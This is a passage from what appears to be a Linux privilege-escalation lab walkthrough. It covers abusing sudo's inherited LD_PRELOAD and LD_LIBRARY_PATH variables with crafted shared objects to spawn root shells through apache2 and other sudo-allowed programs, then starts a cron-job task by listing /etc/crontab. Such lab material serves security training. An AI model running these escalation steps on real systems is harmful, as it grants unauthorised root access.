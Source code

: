 Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

```jsx
sudo -l
```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```jsx
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```jsx
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

```jsx
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

```jsx
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```jsx
sudo LD_LIBRARY_PATH=/tmp apache2
```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

# Task 8 Cron Jobs - File Permissions

---

```jsx
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```